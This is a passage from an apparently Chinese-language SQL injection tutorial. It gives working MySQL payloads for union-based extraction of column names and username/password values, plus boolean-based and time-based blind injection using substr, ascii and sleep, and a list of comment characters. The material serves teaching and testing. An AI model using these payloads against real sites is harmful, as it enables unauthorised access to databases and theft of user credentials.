 ### （5）获取表中的字段

这里假设已经获取到表名为user

```
select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
```

### （6）获取各个字段值

这里假设已经获取到表名为user，且字段为username和password

```
select null,group_concat(username,password) from users
```

### 2.MySQL < 5.0

MySQL < 5.0 没有信息数据库**information_schema**，所以只能手工枚举爆破（二分法思想）。

该方式通常用于盲注。

### 相关函数

**length(str)** ：返回字符串str的长度

**substr(str, pos, len)** ：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始

**mid(str,pos,len)** ：跟上面的一样，截取字符串

**ascii(str)** ：返回字符串str的最左面字符的ASCII代码值

**ord(str)** ：将字符或布尔类型转成ascll码

**if(a,b,c)** ：a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

### （1）基于布尔的盲注

```
and ascii(substr((select database()),1,1))>64 /*判断数据库名的第一个字符的ascii值是否大于64*/
```

### （2）基于时间的盲注

```
id=1 union select if(SUBSTRING(user(),1,4)='root',sleep(4),1),null,null /*提取用户名前四个字符做判断，正确就延迟4秒，错误返回1*/
```

## 0x06 常用注入方式

注释符：

```
#
-- (有空格)或--+
/**/
```
